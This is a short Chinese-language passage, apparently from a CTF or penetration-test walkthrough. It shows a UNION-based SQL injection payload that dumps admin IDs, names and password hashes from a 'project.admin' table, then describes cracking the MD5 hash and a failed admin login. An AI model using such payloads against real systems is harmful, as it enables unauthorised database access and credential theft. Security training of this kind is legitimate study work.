   ![](./img/adminname.png)
- 然后查看字段内容，`admin_pass` 应该为管理员密码。
  ```sql
  1' union select 1,group_concat(admin_id,0x3a,admin_name,0x3a,admin_pass),3,4 from project.admin--+
  ```
  ![](./img/pass.png)
- 看到这串字符怀疑是 `md5` 加密，解密得到密码。
  
  ![](./img/md5.png)
- `admin/adminpwd` 尝试登录管理员用户，但是失败了。
  >此时路径为 `project/user/login.php`
